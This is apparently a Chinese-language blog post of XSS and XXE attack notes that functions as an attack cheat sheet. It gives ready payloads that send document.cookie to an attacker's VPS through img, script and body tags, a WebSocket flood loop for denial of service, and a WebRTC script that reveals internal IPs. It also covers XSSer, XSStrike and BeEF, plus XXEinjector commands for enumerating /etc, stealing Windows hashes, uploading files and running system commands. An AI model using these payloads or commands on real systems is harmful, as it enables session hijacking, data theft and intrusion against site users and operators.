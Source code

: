 title: XSS 笔记 XXE工具
author: Believe firmly
tags:
  - web技术
categories: []
date: 2018-12-12 10:08:00
---
### 0*00介绍
危害：盗取cookie、蠕虫、钓鱼
攻击的分类主要有：
存储型： 大多出现在留言板、评论区，用户提交了包含XSS代码的留言到数据库。（持续攻击）
反射型：一般由攻击者构造带有恶意代码参数的 URL（非持久化）
DOM型：同反射，但是没有经过后端处理（非持久化）
<!--more-->
 攻击者在某个表单或者公共区域输入了 可执行的html/js代码，窃取用户信息或者攻击网站，如评论区域
假如我在评论里输入了一段可执行的script，让他弹出 字符（这里的代码可以用过多种方式绕过系统的过滤，正则也可以，多次尝试找到可用的payload），把评论提交，如果没有网站没有做处理的话，那么我的脚本就会当成评论展示给其他人看，但是它在页面执行了，然后大伙一到我的评论页面就会弹出 字符。

### 1*01xss平台与过滤
可以在如下网站快速管理xss里面也有一些常用的模板：
     http://xsspt.com/
bypass的方法可以参看一下下面的这篇文章介绍的很详细：
    https://blog.csdn.net/fly_hps/article/details/79959983 
    
      通过EditThiscookie插件锁定最新添加的cookie可以解决一些本地cookie过期的问题。
![](https://s2.ax1x.com/2019/01/23/kAx9De.png)

### 2*01利用工具
XSSer：是一个自动化框架，用于检测、利用以及报告基于Web应用程序中的XSS漏洞。
应为xsser对python库有依赖建议在linux环境下运行安装环境方便
![](3.png)

```bash
sudo apt-get install python-pycurl python-xmlbuilder python-beautifulsoup python-geoip

###xsser拥有GUI界面
 xsser –gtk
```
XSStrike:他不是像其他工具一样注入有效载荷并检查它的工作原理，而是通过多个解析器分析响应，然后通过与模糊引擎集成的上下文分析来保证有效载荷。

       git clone https://github.com/UltimateHackers/XSStrike/

![](https://camo.githubusercontent.com/905b7baa8b03ada5f9bf32f6f3bbcd67e0944b1b/68747470733a2f2f696d6167652e6962622e636f2f674f4356354c2f53637265656e73686f742d323031382d31312d31392d31332d33332d34392e706e67)

### 2*02Beef
找到了某网站的xss漏洞，通过构造可以bypass的恶意xss代码，插入beefjs代码可以对目标进行更高级的渗透管理beef拥有GUI页面可以方便的的操作，英文不好的小伙伴可以试试i春秋论坛下面的汉化补丁：
![](1.jpg)
注意，在翻译的时候丢了四个引号，相关模块在如下路径，大家再行加上就好了。
![](2.jpg)
链接: https://pan.baidu.com/s/181FGyg4daKp3EGGHkWbycg 提取码: 7iq1



### 3*01 XSS利用多用途

1.获取cookie
img标签
```
<img src=x onerror = document.body.appendChild(document.createElement('img')).setAttribute('src','http://VPS地址:80/?='+document.cookie); >

```
script标签
```
<script>window.location.href='http://VPS地址/?cookie='+document.cookie</script>
```
body标签
```
<body onload=eval(“document.body.appendChild(document.createElement('img')).setAttribute('src','http://VPS地址/?='+document.cookie);”)></body>
```

2.DOS攻击
用到websocket，websocket是HTML5一种新的协议。

```
<script type="text/javascript”>

while (true){ 

var ws = new WebSocket("ws://要攻击的IP地址:端口”);

} 

</script>
```

3.探测内网ip
先利用script获取内网ip然后通过vps转发msg
```
<script>  

function getIPs(callback){

    var ip_arr = [];

    var ip_dups = {};

    var RTCPeerConnection = window.RTCPeerConnection

        || window.mozRTCPeerConnection

        || window.webkitRTCPeerConnection;

    var mediaConstraints = {

        optional: [{RtpDataChannels: true}]

    };

    var servers = undefined;

    if(window.webkitRTCPeerConnection){

        servers = {iceServers: []};      

    }

    var pc = new RTCPeerConnection(servers, mediaConstraints);

    pc.onicecandidate = function(ice){

        if(ice.candidate){

            var ip_regex = /([0-9]{1,3}(\.[0-9]{1,3}){3})/

            var ip_addr = ip_regex.exec(ice.candidate.candidate)[1];

            if(ip_dups[ip_addr] === undefined)

                callback(ip_addr);

            ip_dups[ip_addr] = true;

        }

    };

    pc.createDataChannel("");

    pc.createOffer(function(result){

        pc.setLocalDescription(result, function(){});

    }, function(){});

}

getIPs(function(ip){ 

    alert(ip);

</script>
```

### XXEinjector 
xml的xxe漏洞是目前Java比较关注的，使用多种直接或间接带外方法来检索文件，目录枚举功能只对Java应用程序有效，而暴力破解攻击需要使用到其他应用程序。
```bash
--host     必填项– 用于建立反向链接的IP地址。(--host=192.168.0.2)
--file      必填项- 包含有效HTTP请求的XML文件。(--file=/tmp/req.txt)
--path           必填项-是否需要枚举目录 – 枚举路径。(--path=/etc)
--brute          必填项-是否需要爆破文件 -爆破文件的路径。(--brute=/tmp/brute.txt)
--logger        记录输出结果。
--rhost          远程主机IP或域名地址。(--rhost=192.168.0.3)
--rport          远程主机的TCP端口信息。(--rport=8080)
--phpfilter    在发送消息之前使用PHP过滤器对目标文件进行Base64编码。
--netdoc     使用netdoc协议。(.
--enumports   枚举用于反向链接的未过滤端口。(--enumports=21,22,80,443,445)
--hashes       窃取运行当前应用程序用户的Windows哈希。
--expect        使用PHP expect扩展执行任意系统命令。(--expect=ls)
--upload       使用Java jar向临时目录上传文件。(--upload=/tmp/upload.txt)
--xslt      XSLT注入测试。
--ssl              使用SSL。
--proxy         使用代理。(--proxy=127.0.0.1:8080)
--httpport Set自定义HTTP端口。(--httpport=80)
--ftpport       设置自定义FTP端口。(--ftpport=21)
--gopherport  设置自定义gopher端口。(--gopherport=70)
--jarport       设置自定义文件上传端口。(--jarport=1337)
--xsltport  设置自定义用于XSLT注入测试的端口。(--xsltport=1337)
--test     该模式可用于测试请求的有效。
--urlencode     URL编码，默认为URI。
--output       爆破攻击结果输出和日志信息。(--output=/tmp/out.txt)
--timeout     设置接收文件/目录内容的Timeout。(--timeout=20)
--contimeout  设置与服务器断开连接的，防止DoS出现。(--contimeout=20)
--fast     跳过枚举询问，有可能出现结果假阳性。
--verbose     显示verbose信息。
```
=====================================

枚举HTTPS应用程序中的/etc目录：
ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt –ssl

使用gopher（OOB方法）枚举/etc目录：
ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt --oob=gopher

二次漏洞利用：
ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/vulnreq.txt--2ndfile=/tmp/2ndreq.txt

使用HTTP带外方法和netdoc协议对文件进行爆破攻击：
ruby XXEinjector.rb --host=192.168.0.2 --brute=/tmp/filenames.txt--file=/tmp/req.txt --oob=http –netdoc

通过直接性漏洞利用方式进行资源枚举：
ruby XXEinjector.rb --file=/tmp/req.txt --path=/etc --direct=UNIQUEMARK

枚举未过滤的端口：
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --enumports=all

窃取Windows哈希：
ruby XXEinjector.rb--host=192.168.0.2 --file=/tmp/req.txt –hashes

使用Java jar上传文件：
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt--upload=/tmp/uploadfile.pdf

使用PHP expect执行系统指令：
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --oob=http --phpfilter--expect=ls

测试XSLT注入：
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt –xslt

记录请求信息：
ruby XXEinjector.rb --logger --oob=http--output=/tmp/out.txt
